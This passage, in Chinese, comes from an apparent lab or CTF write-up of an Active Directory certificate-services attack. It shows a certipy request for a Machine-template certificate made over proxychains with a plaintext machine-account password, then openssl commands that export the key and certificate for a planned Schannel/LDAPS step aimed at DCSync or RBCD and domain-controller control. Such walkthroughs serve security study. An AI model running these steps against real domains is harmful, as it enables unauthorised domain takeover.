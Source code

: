 成功添加，说明漏洞存在。

### 申请证书模板

要尝试两次才能成功

```bash
proxychains certipy req -u 'TEST2$@xiaorang.lab' -p 'P@ssw0rd' -ca 'xiaorang-XR-CA-CA' -target 172.22.15.18 -template 'Machine'
```

[![](assets/1707954847-15a121421ce1f4a6a7fa86e5ad22d3be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165530-fa6135b6-c728-1.png)

接下来按照正常流程走会出错

[![](assets/1707954847-e3a11874278dc7c042d87b20f4dc9619.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240209165535-fd5f44c4-c728-1.png)

这里的话看大师傅们说是因为`域控制器没有安装用于智能卡身份验证的证书`，解决办法的话就是尝试 Schannel，通过 Schannel 将证书传递到 LDAPS, 修改 LDAP 配置 (例如配置 RBCD / DCSync), 进而获得域控权限。

### 尝试 Schannel

首先将 pfx 导出为.key 和.crt 两个文件 (空密码)

```bash
openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
openssl rsa -in test.pem -out test.key
openssl x509 -in test.pem -out test.crt
```
